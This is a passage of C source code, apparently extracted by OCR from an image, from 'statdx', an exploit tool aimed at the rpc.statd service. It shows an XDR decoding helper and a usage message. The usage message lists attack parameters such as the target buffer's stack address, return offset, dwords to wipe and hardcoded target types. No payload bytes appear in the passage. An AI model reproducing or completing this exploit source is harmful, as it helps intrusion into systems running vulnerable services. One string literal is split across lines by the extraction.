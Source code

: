 xdr_sm_stat_res(XDR *xdrs, struct sm_stat_res *objp)

{

    if (!xdr_res(xdrs, &objp->res_stat))

        return (FALSE);

    if (!xdr_int(xdrs, &objp->state))

        return (FALSE);

    return (TRUE);

}

 

void

usage(char *app)

{

    int i;

 

    fprintf(stderr, "statdx by ron1n <shellcode@hotmail.com>\n");

    fprintf(stderr, "Usage: %s [-t] [-p port] [-a addr] [-l len]\n", app);

    fprintf(stderr, "\t[-o offset] [-w num] [-s secs] [-d type]

<target>\n");

    fprintf(stderr, "-t\tattack a tcp dispatcher [udp]\n");

    fprintf(stderr, "-p\trpc.statd serves requests on <port> [query]\n");

    fprintf(stderr, "-a\tthe stack address of the buffer is <addr>\n");

    fprintf(stderr, "-l\tthe length of the buffer is <len> [1024]\n");

    fprintf(stderr, "-o\tthe offset to return to is <offset> [600]\n");

    fprintf(stderr, "-w\tthe number of dwords to wipe is <num> [9]\n");

    fprintf(stderr, "-s\tset timeout in seconds to <secs> [5]\n");

    fprintf(stderr, "-d\tuse a hardcoded <type>\n");

    fprintf(stderr, "Available types:\n");

 

    for(i = 0; types[i].desc; i++)

        fprintf(stderr, "%d\t%s\n", types[i].type, types[i].desc);

 

    exit(EXIT_FAILURE);

}

 

void
